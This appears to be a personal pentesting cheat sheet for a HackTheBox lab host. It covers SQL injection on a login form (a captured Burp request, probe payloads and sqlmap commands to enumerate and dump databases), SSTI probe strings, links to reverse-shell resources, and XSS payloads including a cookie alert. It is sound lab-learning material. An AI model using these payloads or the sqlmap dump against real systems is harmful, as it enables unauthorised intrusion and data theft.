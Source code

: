 # SQL 
#sqlmap #sql #sqlinjection 

Some login like:
May be running some SQL query underneath. Try discovering with:

# 1. Capture the request
Open BurpSuite, set it as proxy for your browser (or open their browser) and turn on interception.

Then try some dummy credentials as `ADMIN` and `PASSWORD` and copy paste the POST request in a file. E.g:
```

POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://goodgames.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://goodgames.htb/signup
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=ADMIN&password=PASSWORD
```
# 2. Test if is SQL-injectable
Try some typical sql-injections and check if the server does respond to any of the queries:
```
# https://github.com/payloadbox/sql-injection-payload-list
'
`
´
ADMIN' OR 1 -- -
' OR 1 -- -

.
.
.

```

# 3. Play with sqlmap
Then open a new terminal and play with sqlmap:
```
cheat sqlmap

sqlmap -r set.req --dbs
sqlmap -r set.req -D databasename --tables
sqlmap -r set.req -D databasename -T tablename --dump

```

# SSTI (Server-Side Template Injection)
#ssti #template-injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
One of the most common template engine is Jinja. You can check if there is any template injection vulnerability by introducing some of the classic payloads: 
```
${{<%[%'"}}%\
${7/0}
{{7/0}}
<%= 7/0 %>
```
And check if the server has a different response (e.g.)

Check following tools:

* [TInjA](https://github.com/Hackmanit/TInjA)
```
  TInjA url -u http://example.com -c "session=<coockie>"
```
* [SSTImap](https://github.com/vladko312/sstimap)
* [Tplmap](https://github.com/epinna/tplmap)
* [Template Injection Table](https://github.com/Hackmanit/template-injection-table)

#### Interesting wordlist of variables
#template-injection-wordlist
`SecLists/Fuzzing/template-engines-special-vars.txt`

## Interesting ways of obfuscating revshell

### Linux/Windows
* https://pentestbook.six2dez.com/exploitation/reverse-shells

# Python
Check with Wappalyzer or with any tool or inspection if the server is running python. If so, then search for any user input where the input could be interpreted as python code:

# XSS
https://owasp.org/www-community/attacks/xss/
Test payloads according to [this page](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)
```
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
```
Check the link for bypassing methods.
